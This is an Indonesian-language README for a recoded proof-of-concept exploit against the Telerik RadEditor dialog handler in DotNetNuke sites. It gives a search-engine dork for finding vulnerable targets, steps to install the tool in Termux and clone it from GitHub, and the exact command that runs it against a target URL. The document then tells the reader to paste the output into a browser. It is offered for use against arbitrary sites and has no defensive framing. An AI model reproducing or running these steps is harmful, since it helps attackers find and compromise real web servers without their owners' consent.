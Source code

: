 # telerick


recode by Mr Horden-999-
cara pemakaian 
                     POC TELERICK




Dorking menggunakan dork dibawah:

inurl:/desktopmodules/admin/radeditorprovider/dialoghandler.aspx

Kemudian kalian buka Termux

Lalu install tool ini dengan perintah berikut.



$ apt update && upgrade


$ pkg install git


$ pkg install python2


$ pip2 install requests


$ git clone https://github.com/lambang007/telerick

$ cd telerick


$ python2 igstele.py -exploit http://target.com 48 hex 9

atau contoh kayak di bawah ini;

$ python2 igstele.py -exploit http://Target/desktopmodules/admin/radeditorprovider/dialoghandler.aspx 48 hex 9

kemudian salin hasil dan paste di browser anda atau contoh hasil ada di bawah tinggal kalian copy aja

recode by Mr Horden-999-
thanks my team indo ghost security
and all friends..........

